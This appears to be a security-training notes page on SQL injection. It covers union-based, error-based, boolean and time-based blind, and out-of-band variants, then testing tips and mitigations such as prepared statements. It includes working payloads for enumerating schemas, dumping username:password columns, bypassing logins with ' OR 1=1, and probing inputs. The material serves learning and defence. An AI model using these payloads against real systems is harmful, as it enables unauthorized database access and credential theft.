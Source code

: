 # SQL Injection

SQL Injection (SQLi) is a type of attack on web applications. It happens when an application uses unvalidated user input to interact with a database. This can allow attackers to access, modify, or delete sensitive data. They might also bypass authentication to access private areas. SQLi is an old but highly damaging vulnerability.



## SQLi Types/Payloads

### In-Band SQLi

In-Band SQL Injection is easy to find and exploit. It uses the same communication method to attack and get results. For example, you can discover an SQL Injection flaw on a website and extract database data to the same page.

<details>

<summary>Error-Based SQL Injection</summary>

SQL Injection exploits can reveal database details by displaying error messages directly in the browser, useful for mapping the database.

</details>

<details>

<summary>Union-Based SQL Injection</summary>

This SQL Injection technique uses the UNION operator with a SELECT statement to show more data on a web page. It's a common method to extract large amounts of data through an SQL Injection vulnerability.

{% code overflow="wrap" %}
```sql
# get error to enumerate the db
1' UNION SELECT 1; -- '

# find the number of columns needed
1' UNION SELECT 1,2; -- '
1' UNION SELECT 1,2,3; -- '

# get current db
0' UNION SELECT 1,2,database(); -- '

# get database tables
0' UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'shop'; -- '

# get columns name of a table
0' UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'; -- '

# get data from a table
0' UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users; -- '
```
{% endcode %}

</details>

### Blind SQLi

Blind SQL injection differs from In-Band SQL injection because it doesn't show results directly on the screen. In Blind SQLi, we receive little to no feedback because error messages are turned off. However, the injection still functions, and even a tiny bit of feedback can help us gather information from the entire database.

<details>

<summary>Authentication Bypass</summary>

Blind SQL Injection is often used to bypass login forms. Here, the goal isn't to retrieve data from the database but simply to gain access by bypassing authentication.

Get a scenario where we have a Login page with Username and Password. The query should be this:

```sql
select * from users where username='%username%' and password='%password%' LIMIT 1;
```

Insert the payload bellow into the Password field can allow us to ignore the password check and access without insert the correct password.

```sql
# payload in password field
' OR 1=1;-- '

# query changed into this
select * from users where username='' and password='' OR 1=1;
```

{% hint style="info" %}
Using `1=1` in a query with an **OR** operator always returns true. This tricks the web application into thinking a username/password match is found, allowing access.
{% endhint %}

</details>

<details>

<summary>Boolean Based</summary>

Boolean-based SQL Injection involves using true/false responses from injection attempts to determine success. Although it may seem limited, these responses can help reveal the entire database structure and its contents.

Using the function LIKE we can find out the letters of a Database, Table, Column and Data Row.

For example we have a API endpoint that return True/Falso if a user exists and the parameter is vulnerable to SQLi. Abusing of this parameter we can obtain all information to dump the DB.

{% code overflow="wrap" %}
```sql
# try any chars to find DB name
admin123' UNION SELECT 1,2,3 where database() like 's%';--    '

# try any chars to find tables name
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--         '

# try any chars to find columns name        
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';     '

# check for some existing user   
admin123' UNION SELECT 1,2,3 from users where username like 'a%

# check for the correct password of found users
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```
{% endcode %}

</details>

<details>

<summary>Time-Based</summary>

Time-based blind SQL injection is similar to boolean-based injection, but there are no visual signs to check if your queries are correct. Instead, you determine success by the time taken for the query to complete. This is often done by using the **`SLEEP(x)`** function with a `UNION` statement. The `SLEEP()` function runs only when a `UNION SELECT` statement is successful.

<pre class="language-sql" data-overflow="wrap"><code class="lang-sql"><strong># try SLEEP function to test SQLi
</strong><strong>mario' UNION SELECT SLEEP(5),2,3;--    
</strong><strong>
</strong><strong># repeat the Boolean-Based SQLi enumeration process to find out db informations 
</strong>admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--

admin123' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'a%';--         '

admin123' UNION SELECT SLEEP(5),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'a%';

admin123' UNION SELECT SLEEP(5),2 from users where username like 'a%

admin123' UNION SELECT SLEEP(5),2 from users where username='admin' and password like 'a%
</code></pre>

</details>

<details>

<summary>Out-of-Band SQLi</summary>



Out-of-band SQL Injection is not very common because it relies on certain database features or specific logic in a web application that makes external network requests based on SQL query results.

This type of attack uses two communication channels: one to execute the attack and another to receive the results. For example, the attack channel might be a web request, while the data collection channel could involve monitoring HTTP or DNS requests to a server you control.

Here's how it works:

1. An attacker sends a request with a malicious SQL payload to a vulnerable website.
2. The website processes the SQL query, including the attacker's payload, with the database.
3. The payload triggers the server to send an HTTP request back to the attacker containing sensitive data from the database.

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

</details>



## Testing for SQLi

Testers should find app features where users can enter data, which may impact the database. For each feature found, testers must test for vulnerabilities by using harmful strings and values.

### Vulnerable input recon

Using special characters in SQL inputs like `'`, `"`, `#`, `;`, `)`, `*`, and `%` can cause SQL errors, sometimes visible to users. This can show that the inputs aren't properly sanitized, making them vulnerable to SQL injection.

For every payload do not forget to try url encoding or others.

### Manual Test

Try this payloads below for each input in the web app. Tools like Burp can help us to do this.

{% code title="Request" %}
```javascript
/page?id=PAYLOAD
```
{% endcode %}

{% code title="Manual Payloads" %}
```
id=1
id=1'
id=1"
id=[1]
id[]=1
id=1`
id=1\
id=1/**/
id=1/*!111'*/
id=1' or '1'='1
id=1 or 1=1
id=' or ''='
id=' OR 1 -- -
id=1' or 1=1 --
id=1' or 1=1 -- -
id=1' or 1=1 /*
id='='
```
{% endcode %}



### Automatic Tools

{% content-ref url="../../../../../tools/web-tools/sqlmap.md" %}
[sqlmap.md](../../../../../tools/web-tools/sqlmap.md)
{% endcontent-ref %}



## Mitigations

SQL Injection vulnerabilities can seriously impact web applications. However, developers can safeguard their applications by following these practices:

#### 1. Use Prepared Statements

In prepared statements, the SQL query is written first and user inputs are added as parameters later. This approach ensures the SQL code remains unchanged, allowing the database to differentiate between the query and the data. This also makes your code cleaner and easier to read.

#### 2. Validate Input

Input validation protects SQL queries by controlling what is entered. Using an allow list restricts input to acceptable strings. Alternatively, a string replacement method can filter allowed and disallowed characters.

#### 3. Escape User Input

Allowing characters like `'`, `"`, `$`, and `\` can cause SQL queries to break or open them to attacks. Escaping user input involves adding a backslash (`\\`) before these characters, treating them as regular strings rather than special characters.
